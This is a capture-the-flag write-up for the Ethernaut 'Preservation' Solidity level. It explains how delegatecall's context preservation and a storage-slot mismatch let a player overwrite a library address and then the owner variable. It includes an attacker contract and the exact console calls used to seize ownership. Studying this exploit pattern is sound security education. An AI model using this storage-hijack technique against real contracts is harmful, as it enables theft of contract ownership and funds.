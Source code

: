 # 16. Preservation
Difficulty 8/10

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

-   Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
-   Understanding what it means for `delegatecall` to be context-preserving.
-   Understanding how storage variables are stored and accessed.
-   Understanding how casting works between different data types.

*Notes*
- Messing around in remix: notice setSecondTime controls timeZone1Library
- This works in instance too (`await contract.setSecondTime(0)` -> `await contract.timeZone1Library()
'0x0000000000000000000000000000000000000000'`)
- https://blog.sigmaprime.io/solidity-security.html#delegatecall

LibraryContract storage slot[0] is storedTime, but slot[0] in Preservation is timeZone1Library  

Using setSecondTime, we can control the address of timeZone1Library and exploit context-preserving nature of delegatecall to change owner address. An attack contract was created:

preservation_attack.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

// Simple library contract to set the time
contract preservationAttack {

    uint storageSlot0; // corresponds to timeZone1Library
    uint storageSlot1; // corresponds to timeZone2Library
    address storageSlot2; //corresponds to owner

    // fallback - this will run if a specified function is not found
    fallback() external {
        storageSlot2 = [player address]; // set player address to owner
    }
}
```

This contract was deployed and then python was used to get the address as an int:
```
$ python3
Python 3.8.10 (tags/v3.8.10:3d8993a, May  3 2021, 11:48:03) [MSC v.1928 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.     >>> int('0xf51a72Ea6538AD7502C50Ec635A2C13E9e2496Fc',16)                   1399292568788218874132286441883746303772671121148
```

Then setSecondTime() is called with this input:
`await contract.setSecondTime("1399292568788218874132286441883746303772671121148")`

Finally, setFirstTime() can be called with any input since it now points to the attack contract:
`await contract.setFirstTime(0)`

**END**
As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.